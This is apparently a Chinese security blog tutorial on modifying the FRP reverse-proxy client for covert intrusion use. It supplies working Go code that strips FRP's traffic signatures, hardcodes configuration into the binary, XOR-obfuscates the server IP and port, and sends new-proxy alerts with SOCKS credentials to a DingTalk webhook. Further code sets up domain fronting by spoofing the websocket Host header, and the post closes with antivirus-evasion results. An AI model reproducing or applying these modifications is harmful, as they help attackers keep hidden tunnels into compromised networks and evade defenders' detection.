# FRP魔改

Todo：

- [x] 去除非 TLS 流量特征
   - `frp/pkg/msg/msg.go`
- [x] 配置文件写入源码
   - `frp/cmd/frpc/sub/root.go`
- [x] 通过参数传入 IP 端口，且参数异或加密，便于隐藏
   - `frp/cmd/frpc/sub/root.go`
- [x] 钉钉上线提醒
   - `frp/client/control.go`
- [x] 域前置：通过 websocket 协议让 FRP 上域前置
   - `go/pkg/mod/golang.org/x/net@v0.0.0-20210428140749-89ef3d95e781/websocket/client.go`
   - `go/pkg/mod/golang.org/x/net@v0.0.0-20210428140749-89ef3d95e781/websocket/hybi.go`
   - `pkg/util/net/websocket.go`

- 文中相关流量包：[frp-wireshark.zip](assets/frp-wireshark.zip)

## 基本运行

- 启动
```bash
# FrpServer
$ ./frps -c frps.ini

# frps.ini
[common]
bind_addr = 0.0.0.0
bind_port = 7000

```
```bash
# FrpClient
$ ./frpc -c frpc.ini

# frpc.ini
[common]
server_addr = 192.168.111.1
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7788
plugin = socks5

```

- 编译，运行`package.sh`即可交叉编译并打包各系统可执行文件
```bash
$ ./package.sh

```

- 环境：这里用 Docker 起了个漏洞环境来模拟内网，IP为`172.18.0.2`，实体机是无法访问的
```bash
# 查看容器IP地址
$ docker inspect <容器ID>

```



- Proxy 配置：IP 为`frpc.ini`中的`server_addr`，Port 为`frpc.ini`中的`remote_port`




## 非TLS流量特征
没有启用 TLS 时，frpc 在连接认证 frps 的时候会把 FRP 版本等信息发给 frps 进行认证。通过追踪 TCP 流量可以看到这些信息，目前一些流量设备就通过这个特征来识别 FRP 代理
可以看到有如下几个字段值：`version, os, arch, privilege_key, pool_count, run_id`




去除的方法就是修改这些特征值即可，定位到`frp/pkg/msg/msg.go`文件



修改这些结构体的字段，如下：
```go
type Login struct {
	Version      string            `json:"V"`
	Hostname     string            `json:"H"`
	Os           string            `json:"O"`
	Arch         string            `json:"A"`
	User         string            `json:"U"`
	PrivilegeKey string            `json:"PK"`
	Timestamp    int64             `json:"T"`
	RunID        string            `json:"RID"`
	Metas        map[string]string `json:"M"`

	// Some global configures.
	PoolCount int `json:"PC"`
}

type LoginResp struct {
	Version       string `json:"V"`
	RunID         string `json:"RID"`
	ServerUDPPort int    `json:"SUP"`
	Error         string `json:"E"`
}
```

这里发现下面还有一个`run_id`，这个是在`NewWorkConn`结构体中的，修改方法同样



然后配置代理进行测试，可以正常连接



在`frp/client/service.go`文件中可以看到这里的`loginMsg`调用了前面那些变量



如果想要进一步修改，可以跟进并修改变量的值。如跟进`version.Full()`，可以直接修改`version`变量




## 启用TLS及加密压缩
从`v0.25.0`版本开始 frpc 和 frps 之间支持通过 TLS 协议加密传输，安全性更高。
```bash
[common]
server_addr = 192.168.111.1
server_port = 7000
# 启用TLS
tls_enable = true 

[plugin_socks]
type = tcp
remote_port = 7788
plugin = socks5

```



另外还可以启用加密和压缩，将通信内容加密传输，将会有效防止流量被拦截。
```go
[common]
server_addr = 192.168.111.1
server_port = 7000
# 启用TLS
tls_enable = true 

[plugin_socks]
type = tcp
remote_port = 7788
plugin = socks5
# 启用加密和压缩,躲避流量分析设备
use_encryption = true 
use_compression = true

```


## 配置文件写入源码
> 将配置文件写入源码，且通过参数传递 IP 

直接在`frp/cmd/frpc/sub/root.go`文件中添加一个参数
```go
// 定义全局变量
var (
	fileContent string
	ip          string
	port        string
)

// 编写 getFileContent 函数接收参数，并定义配置信息
func getFileContent(ip string, port string) {
	var configContent string = `[common]
    server_addr = ` + ip + `
    server_port = ` + port + `
	tls_enable = true 
	[plugin_socks]
	type = tcp
	remote_port = 7788
	plugin = socks5
	#plugin_user = <User>
	#plugin_passwd = <Pwd>
	`

	fileContent = configContent
}

```
然后在`init`函数中定义传参
```go
func init() {
	rootCmd.PersistentFlags().StringVarP(&cfgFile, "config", "c", "./frpc.ini", "config file of frpc")
	rootCmd.PersistentFlags().StringVarP(&cfgDir, "config_dir", "", "", "config directory, run one frpc service for each file in config directory")
	rootCmd.PersistentFlags().BoolVarP(&showVersion, "version", "v", false, "version of frpc")

	// 自定义接收 IP 和 Port 参数
	rootCmd.PersistentFlags().StringVarP(&ip, "server_addr", "t", "", "server_addr")
	rootCmd.PersistentFlags().StringVarP(&port, "server_port", "p", "", "server_port")
}
```
另外还要修改`runClient()`函数，但这里参考文章中的`parseClientCommonCfg()`函数在新版本已经删除，所以需要寻找其它函数



其实这一步的主要的作用的将前面自定义的配置信息进行解析，这里跟进原版`runClient()`函数中的`config.ParseClientConfig()`函数



跳转到`frp/pkg/config/parse.go`文件中，这里发现存在`UnmarshalClientConfFromIni()`函数来解析`content`配置信息，且该变量为`[]byte`类型



Go 语言不支持重载，所以这里自定义一个`runClient2()`函数，接收`ip,port`两个参数，然后通过前面定义的`getFileContent()`函数获取`fileContent`，并转换为`[]byte`类型的`content`，然后套用`config.ParseClientConfig()`函数中前面图中的两部分
```go
// 自定义函数进行处理
func runClient2(cfgFilePath string, ip string, port string) error {
	getFileContent(ip, port)
	content := []byte(fileContent)

	// Parse common section.
	cfg, err := config.UnmarshalClientConfFromIni(content)
	if err != nil {
		return err
	}
	cfg.Complete()
	if err = cfg.Validate(); err != nil {
		err = fmt.Errorf("parse config error: %v", err)
		return err
	}

	// Parse all proxy and visitor configs.
	pxyCfgs, visitorCfgs, err := config.LoadAllProxyConfsFromIni(cfg.User, content, cfg.Start)
	if err != nil {
		return err
	}

	return startService(cfg, pxyCfgs, visitorCfgs, cfgFilePath)
}

```

最终在图中下面调用`runClient()`函数的地方修改为`runClient2()`，上面的是为一个配置目录内每个配置文件都起一个 frpc，因此不需要修改



经测试可以正常使用




## 传参加密混淆
> 前面直接传递 IP、Port 等参数容易留下痕迹，因此可以对传递的参数进行加密混淆，并在源码中进行解密

前面是通过`frp/cmd/frpc/sub/root.go`文件中的`getFileContent()`函数来接收 IP、Port 并拼接到配置信息的，所以可以在这个函数中进行解密操作。
这里实现一个异或函数，并在接收到参数后进行调用
```go
// 实现异或函数
func str2xor(message string, keywords string) string {
	result := ""

	for i := 0; i < len(message); i++ {
		result += string(message[i] ^ keywords[i%len(keywords)])
	}
	return result
}

// 编写 getFileContent 函数接收参数，并定义配置信息
func getFileContent(ip string, port string) {
	// 接收到参数后调用异或函数
	key := "testkey"
	ip = str2xor(ip, key)
	port = str2xor(port, key)

	var configContent string = `[common]
    server_addr = ` + ip + `
    server_port = ` + port + `
	tls_enable = true 
	[plugin_socks]
	type = tcp
	remote_port = 7788
	plugin = socks5
	`
	fileContent = configContent
}

```
附带一个简单的异或小脚本
```python
def str2xor(messages, key):
    res = ""
    for index, msg in enumerate(messages):
        res += chr( ord(msg) ^ ord(key[index % len(key)]) )
    print(res)

if __name__ == '__main__':
    ip = "192.168.111.1"   # E\AZZSAZTBEET
    port = "7000"          # CUCD

    key = "testkey"
    str2xor(ip, key)
    str2xor(port, key)

```

测试，其中服务端 IP`192.168.111.1`异或后为`E\AZZSAZTBEET`，端口`7000`异或为`CUCD`。异或后的字符串可能存在特殊字符`\`，因此建议使用双引号包裹
```go
$ ./frpc_linux_amd64_xor -t "E\AZZSAZTBEET" -p "CUCD"

```




其实这些都是在应用层进行加密混淆，实际上在网络层还是可以看到流量。因此，还需要进行例如域前置等操作来进一步隐藏



## 钉钉上线提醒

- 在`frp/client/control.go#HandleNewProxyResp()`函数中填入钉钉机器人`AccessToken`和`Secret`，然后在前面硬编码的配置部分添加相关`plugin_user`和`plugin_passwd`即可。此处使用了[https://github.com/wanghuiyt/ding](https://github.com/wanghuiyt/ding)，需要先下载依赖并导入，否则会编译失败
```go
func (ctl *Control) HandleNewProxyResp(inMsg *msg.NewProxyResp) {
  xl := ctl.xl
  // Server will return NewProxyResp message to each NewProxy message.
  // Start a new proxy handler if no error got
  err := ctl.pm.StartProxy(inMsg.ProxyName, inMsg.RemoteAddr, inMsg.Error)
  if err != nil {
    xl.Warn("[%s] start error: %v", inMsg.ProxyName, err)
  } else {
    // 配置钉钉机器人
    dingAccessToken := ""
    dingSecret := ""
    
    if dingAccessToken != "" && dingSecret != "" {
      addr := ctl.clientCfg.ServerAddr + inMsg.RemoteAddr
      var plugin_user string
      var plugin_passwd string
      for _, v := range ctl.pxyCfgs {
        plugin_user = v.GetBaseInfo().LocalSvrConf.PluginParams["plugin_user"]
        plugin_passwd = v.GetBaseInfo().LocalSvrConf.PluginParams["plugin_passwd"]
      }

      d := ding.Webhook{
        AccessToken: dingAccessToken,
        Secret:      dingSecret,
      }

      _ = d.SendMessage(
        "Proxy：" + inMsg.ProxyName + "\n" +
        "Server：" + addr + "\n" +
        "Username：" + plugin_user + "\n" +
        "Password：" + plugin_passwd + "\n" +
        "Time：" + time.Now().Format("2006-01-02 15:04:05"))
    }

    xl.Info("[%s] start proxy success", inMsg.ProxyName)
  }
}
```




## 域前置

### 原理
网上看了很多关于 FRP 域前置的文章，发现很多文章都提到需要“通过 Websocket 协议让FRP用上域前置”，但大部分都是上来就是实现 WSS 协议（后续官方 v0.21.0 版本支持该协议：[frp/pull/1919](https://github.com/fatedier/frp/pull/1919/files)），或者是修改 Websocket 相关第三方依赖包等等。很少有解释为什么要实现 Websocket 协议而不是直接使用 HTTP 协议，直到看到 [frp改造3-CDN](https://sec.lz520520.com/2020/11/566/#0x03) 这篇文章：
> 原来一直考虑的是在数据外封装一层 HTTP 协议来转发，**但经过CDN转发会存在会话不一致的问题**，因为本身也只是模拟 HTTP 协议，没法完全实现 HTTP 会话功能等
> Websocket 只需要一次 HTTP 握手，后续整个通讯过程都是建立在一次连接/状态中，交换的数据不再需要 HTTP 头


### 测试

- 先在 Frp Client 所在机器修改本地 Hosts 文件来模拟 DNS 域名解析，然后修改配置使用 Websocket 协议
```bash
# /etc/hosts
192.168.111.1   cdn.naraku.local

```
```bash
# frpc.ini
[common]
server_addr = cdn.naraku.local
server_port = 7000
protocol = websocket

[plugin_socks]
type = tcp
remote_port = 7788
plugin = socks5

```

- 抓包并追踪 TCP 流量，可以看到该认证使用了 Websocket 协议



- 如果要实现域前置，则还需要将 Host 修改为指定的回源域名。但是 FRP 默认 Host 是连接地址，虽然目前版本的 FRP 可以自定义添加 Header：[https://gofrp.org/docs/features/http-https/header/](https://gofrp.org/docs/features/http-https/header/)，但是仅支持 HTTP 协议。而这里使用的是 Websocket 协议，因此需要修改相关依赖包代码




### 修改
在之前的版本中，FRP 是在`frp/pkg/util/net/websocket.go#ConnectWebsocketServer()`方法中调用了 Websocket，而该方法在 [frp/commit/ea568e](https://github.com/fatedier/frp/commit/ea568e8a4fdb979748e4d456e24344eeacc8d275#diff-18fae72f604db6cec11d4cd1f495e763ebb0303f495aac4571d72daa219aaf2c) 中被移到了`frp/pkg/util/net/conn.go#DialWebsocketServer()`，然后又在 [frp/commit/70f4ca](https://github.com/fatedier/frp/commit/70f4caac238aabee33583ea2aaf6d39dc2c5a455#diff-7f5151345cf11377d67d1870775b9acdb29991d06a9dced1ab04abbafc78cea2) 又移到了`frp/pkg/util/net/dial.go#DialHookWebsocket()`方法。下面主要围绕如下两个方法进行改动：



跟进`websocket.NewConfig()`，跳转到`go/pkg/mod/golang.org/x/net@v0.0.0-20210428140749-89ef3d95e781/websocket/client.go#NewConfig()`



这里如果想从配置文件中读取回源域名 Host 的话，改动的地方比较多。例如需要先从`frp/cmd/frpc/sub/root.go#RegisterCommonFlags()`中注册变量，然后在`models/config/client_common.go#ClientCommonConf{}`结构体中新增属性，然后在一系列调用函数中新增该参数，相对比较麻烦。详细可参考：[https://xz.aliyun.com/t/11460#toc-2](https://xz.aliyun.com/t/11460#toc-2)
这里考虑到回源 Host 不会经常变动，并且不会泄露敏感信息，所以选择将其硬编码在代码中。修改方法如下：
```go
func NewConfig(server, origin string) (config *Config, err error) {
	config = new(Config)
	config.Version = ProtocolVersionHybi13
	config.Location, err = url.ParseRequestURI(server)
	if err != nil {
		return
	}
	config.Origin, err = url.ParseRequestURI(origin)
	if err != nil {
		return
	}
	config.Header = http.Header(make(map[string][]string))
	config.Header.Set("Host", "test.baidu.local")
	return
}
```

然后跟进`DialHookWebsocket() > websocket.NewClient() > hybiClientHandshake()`，跳转到`go/pkg/mod/golang.org/x/net@v0.0.0-20210428140749-89ef3d95e781/websocket/hybi.go#hybiClientHandshake()`


这里是 WSS 协议配置 Host 的地方，默认的 Host 是请求地址。这里主要实现从请求头中获取`Host`属性，如果存在则进行赋值，覆盖掉前面的默认值。修改如下：
```go
func hybiClientHandshake(config *Config, br *bufio.Reader, bw *bufio.Writer) (err error) {
	bw.WriteString("GET " + config.Location.RequestURI() + " HTTP/1.1\r\n")

	// According to RFC 6874, an HTTP client, proxy, or other
	// intermediary must remove any IPv6 zone identifier attached
	// to an outgoing URI.

	// FRP Websocket Host
	host := config.Location.Host
	if tmpHost := config.Header.Get("Host"); tmpHost != "" {
		host = tmpHost
	}
	bw.WriteString("Host: " + removeZone(host) + "\r\n")
	// bw.WriteString("Host: " + removeZone(config.Location.Host) + "\r\n")

	bw.WriteString("Upgrade: websocket\r\n")
	bw.WriteString("Connection: Upgrade\r\n")
	
	return nil
}
```

修改`root.go#getFileContent()`函数，启用 Websocket 协议，并关闭 TLS 方便调试，如下：



运行，可以看到 Host 已经改变
```bash
$ ./frpc_0.44.0_linux_amd64 -t "E\AZZSAZTBEET" -p "CUCD"

```



这里还有一个比较明显的特征`/~!frp`，修改`pkg/util/net/websocket.go`中`FrpWebsocketPath`变量即可
```bash
const (
	FrpWebsocketPath = "/~!json"
)

```

## 免杀测试

- 直接编译，原生免杀，但是还是有部分厂商查出，应该是提取了 FRP 的样本特征：[https://www.virustotal.com/gui/file/8a68d600d6c009f10a33eac67871f418f23120469111dc8656b7abb0d33fca49](https://www.virustotal.com/gui/file/8a68d600d6c009f10a33eac67871f418f23120469111dc8656b7abb0d33fca49)



- UPX，好像用处不大：[https://www.virustotal.com/gui/file/2a19b78afc7c62f121108ecd6dde950dd8a5bccb8b5c3059dbc2de372e9fbd54](https://www.virustotal.com/gui/file/2a19b78afc7c62f121108ecd6dde950dd8a5bccb8b5c3059dbc2de372e9fbd54)



## 参考

- [FRP官方文档](https://gofrp.org/docs/overview/)
- [FRP改造计划](https://uknowsec.cn/posts/notes/FRP%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92.html)
- [FRP改造计划续](https://uknowsec.cn/posts/notes/FRP%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92%E7%BB%AD.html)
- [frp改造3-CDN](https://sec.lz520520.com/2020/11/566/)
- [frp改版-支持域前置](https://xz.aliyun.com/t/11460)
- [https://github.com/Mdxjj/frp-free](https://github.com/Mdxjj/frp-free)
- [https://github.com/arugal/frp-notify](https://github.com/arugal/frp-notify)
- [https://github.com/wanghuiyt/ding](https://github.com/wanghuiyt/ding)
